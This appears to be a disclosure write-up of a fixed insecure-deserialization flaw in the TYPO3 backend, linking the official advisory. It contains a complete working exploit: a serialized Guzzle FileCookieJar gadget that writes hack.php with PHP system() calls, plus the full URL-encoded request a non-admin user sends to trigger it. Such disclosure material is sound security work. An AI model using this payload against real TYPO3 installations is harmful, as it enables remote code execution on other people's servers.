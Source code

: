 # Code Execution

This scenario describes how non-admin users can trigger code execution.

### Security Vulnerability

`overrideVals[<table>][l10n_diffsource]=PAYLOAD` is vulnerable to insecure deserialization.

**Steps**

* prepare insecure `PAYLOAD`
  + using `\GuzzleHttp\Cookie\FileCookieJar` to inject executable code as file
* call prepared URI as non-admin user in TYPO3 backend

**Plain**

```
O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{
s:41:"GuzzleHttp\Cookie\FileCookieJarfilename";
s:8:"hack.php";s:52:"GuzzleHttp\Cookie\FileCookieJarstoreSessionCookies";b:1;
s:39:"GuzzleHttp\Cookie\CookieJarstrictMode";N;
s:36:"GuzzleHttp\Cookie\CookieJarcookies";a:1:{
i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:33:"GuzzleHttp\Cookie\SetCookiedata";
a:9:{s:4:"Name";s:10:"CookieName";
s:5:"Value";s:91:"<hr><pre><?php var_dump(__DIR__); system('ls -la ..'); system('ls -la ../..'); ?></pre><hr>";
s:6:"Domain";s:12:"CookieDomain";s:4:"Path";s:1:"/";s:7:"Max-Age";N;s:7:"Expires";i:1;s:6:"Secure";b:0;
s:7:"Discard";b:0;s:8:"HttpOnly";b:0;}}}}
```

**URL**

```
http://typo3v9-hack.ddev.site/typo3/?route=%2Frecord%2Fedit&token=c6336cb47560d1d26584d4d751f6f6b9613323b1
&edit%5Bpages%5D%5B-1%5D=new&overrideVals%5Bpages%5D%5Bsys_language_uid%5D=1
&overrideVals%5Bpages%5D%5Bl10n_parent%5D=1
&overrideVals%5Bpages%5D%5Bl10n_diffsource%5D=O%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A8%3A%22hack.php%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3Bs%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A9%3A%7Bs%3A4%3A%22Name%22%3Bs%3A10%3A%22CookieName%22%3Bs%3A5%3A%22Value%22%3Bs%3A91%3A%22%3Chr%3E%3Cpre%3E%3C%3Fphp%20var_dump%28__DIR__%29%3B%20system%28%27ls%20-la%20..%27%29%3B%20system%28%27ls%20-la%20..%2F..%27%29%3B%20%3F%3E%3C%2Fpre%3E%3Chr%3E%22%3Bs%3A6%3A%22Domain%22%3Bs%3A12%3A%22CookieDomain%22%3Bs%3A4%3A%22Path%22%3Bs%3A1%3A%22%2F%22%3Bs%3A7%3A%22Max-Age%22%3BN%3Bs%3A7%3A%22Expires%22%3Bi%3A1%3Bs%3A6%3A%22Secure%22%3Bb%3A0%3Bs%3A7%3A%22Discard%22%3Bb%3A0%3Bs%3A8%3A%22HttpOnly%22%3Bb%3A0%3B%7D%7D%7D%7D&returnUrl=%2Ftypo3%2Fhack.php
```

### Security Vulnerability

* issue has been addressed and fixed in stable TYPO3 branches
  + https://typo3.org/security/advisory/typo3-core-sa-2019-020/
  + https://review.typo3.org/c/Packages/TYPO3.CMS/+/61139
  + https://blog.ripstech.com/2019/typo3-overriding-the-database/